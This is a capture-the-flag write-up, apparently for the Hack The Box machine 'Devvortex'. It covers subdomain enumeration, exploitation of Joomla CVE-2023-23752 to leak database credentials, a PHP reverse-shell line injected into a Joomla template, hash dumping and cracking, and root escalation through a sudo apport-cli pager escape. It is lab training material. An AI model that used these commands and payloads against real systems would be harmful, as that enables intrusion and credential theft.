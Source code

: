 ![Devvortex.png](./img/Devvortex.png)
# Initial Reconnaissance!
1. `curl -I 10.10.11.242`, to find any possible location / DNS name
2. found a DNS name `devvortex.htb`, add to `/etc/hosts`
3. `gobuster vhost -u devvortex.htb -w SecLists/Discovery/DNS/subdomain-top5000.txt --append-domain`
	note: why use `--append-domain`? while by default gobuster search with `example.url.WORD` this setting changes it to `WORD.example.url`
4. found a subdomain `dev.devvortex.htb`, add to `/etc/hosts`
5. `gobuster dir -u dev.devvortex.htb -w SecLists/Discovery/Web-Content/directory-list-medium.txt`
6. get an interesting directory `/administrator` which lead to a `Joomla!` login page
7. using `joomscan dev.devvortex.htb` return a result of joomla version `4.2.6` which has a known data exfiltration vulnerabilities with assigned `CVE-2023-23752` via the `/api` endpoint

# User Escalation
1. download the POC for `CVE-2023-23752` from `https://github.com/adhikara13/CVE-2023-23752.git`
2. `python3 CVE-2023-23752.py -u dev.devvortex.htb -o joomla` to extract a credentials, `-o joomla` is optional, it just saved the output into a file named `joomla`
3. got a credentials `lewis:P4ntherg0t1n5r3c0n##`
4. while i explore the joomla pages i notice that there's another user named `logan`, and i realise that i could perform reverse shell via the joomla template
5. go to the `system > administrator template` and pick any random one, i choose `index.php` and i inject on the top most inside the php tag a reverse shell `system("bash -c 'bash -i >& /dev/tcp/your-ip/port 0>&1'");` and save the file
6. setting up NC listener with `nc -lvnp port`
7. then i visit the path `path needed`, once i visited, i got a connection in the nc
8. on the `/etc/passwd` there's 2 user i'm interested in `logan` which is the user and `mysql` which is a database user which should store the password for Logan since Logan is registered as a user in the joomla panel
9. `mysql -u lewis -h localhost -p` to connect to the mysql, input lewis password and i'm inside the database
10. `show databases;` find out a database called `joomla`, `use joomla;`, to use the `joomla` database. `show tables;` to list all table inside the database. i notice an interesting tables `sd4fg_users` so i run the command  `select * from sd4fg_users` and found the 2 user earlier `lewis` and `logan` both have the hashed password
11. to crack the hash first i need to identify the hash, so i move the hash value into a file named `logan.hash` and then run `hashid logan.hash` it return a possible of 3 hash `blowfish`, `woltlab`, `bcrypt`, i will use `hashcat` to crack the hash with `rockyou.txt` wordlists
12. `hashcat -m 3200 logan.hash rockyou.txt`, after a while it return a result of `tequieromucho` with the known credentials of `logan:tequieromucho` its time to logged in with the user with ssh
13. `ssh logan@devvortex.htb`, `yes` if a theres a fingerprint prompt, and input the password
14. `cat user.txt`
15.  flag: `4d0de8887718e7c4fc7467ded4f9e4c4`

# Further Reconnaisance
1. `sudo -l` to check any available command to be run as sudo, and i could run `appport-cli` as sudo, which had an assigned ``

# Privilege Escalation
1. since i could run `apport-cli` and there's a known CVE i found the POC here `https://github.com/diego-tella/CVE-2023-1326-PoC`
2. `sudo apport-cli -f` to file a report, choose one of the option looks like the hardware which have an issue i choose `1` the screen, and then specify the problem i choose `2`, then a `enter to continue` just press enter, and wait for a moment. then there will be some option such as `send the report`, `save for later`, etc.
3. just click `v` based on the POC i need to read the report and there's a `less` looking interaction `:` on the bottom most, just enter `!/bin/bash` and enter
4. now i'm logged in as root
5. `cat /root/root.txt`
6. flag: `4467c637f361444378c871b02a8ccb54`

![Devvortex.png](./img/Devvortex-Pwned.png)